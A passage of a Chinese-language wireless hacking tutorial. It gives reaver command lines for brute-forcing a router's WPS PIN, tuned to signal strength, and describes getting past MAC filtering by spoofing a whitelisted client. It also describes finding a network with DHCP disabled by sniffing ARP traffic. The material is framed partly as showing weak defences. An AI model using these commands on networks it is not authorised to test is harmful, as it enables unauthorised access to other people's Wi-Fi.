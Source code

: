 示例：

```
reaver -i mon0 -b MAC -a -S –d9 –t9 -vv

```

应因状况调整参数（-c后面都已目标频道为1作为例子） 目标信号非常好:

```
reaver -i mon0 -b MAC -a -S -vv -d0 -c 1

```

目标信号普通:

```
reaver -i mon0 -b MAC -a -S -vv -d2 -t 5 -c 1

```

目标信号一般:

```
reaver -i mon0 -b MAC -a -S -vv -d5 -c 1

```

0×03 防御只是一个步骤.安全是一个系统.
----------------------

* * *

images:  ceb8489ba449bcf181a863aedb64574a58d28275.jpg

看我任何突MAC封锁！

images:  ee9df5e9d02c344e89cb0e2289c6570b2e99c918.jpg

客户机的截图模拟主人使用MAC过滤功能！.

images:  07937943268812aceb1347cfb3f37fe012ced01c.jpg

images:  2f1735e78d5f38b9e085ba3d8d03fc1afc30b580.jpg

在路由器上使用mac过滤.黑客就一点办法的没有了么？.no！

images:  a68ce14b699a4fe4c36ee232123be16e1f8b5bbb.jpg

由于路由器只接受白名单的数据包.所以kali无法从dns服务器获取到域名IP

images:  337b5b106250681572ec6b5b44fa9ec6bb98efc9.jpg

images:  c1f3f00cf34f9ddaf3a7144710229e6cb1574080.jpg

images:  b42c7acabf8e3a6d8e1fed25659f09afbde9dc3a.jpg

images:  5a373460ec714fa46661973281996b4cce61dfdb.jpg

伪装MAC地址上网由于有两个无线客户端.所有的数据包都会发送至两个客户端.难免会出现数据包丢失的！

**关闭dhcp真的有用么?**

images:  3fc5942096fc93360fbedb60c224f0486a203a9a.jpg

images:  a2331f59e4eb737c773daf9d923e08c347bd8854.jpg

首先我先模拟WIFI的管理员.吧DHCP关了.并且设置了一个只有自己知道的网关IP.

可以清楚的看到.kali并不在管理员使用的网段内.但在OSI二层环境中.kali抓取了路由器与客户端的ARP报文.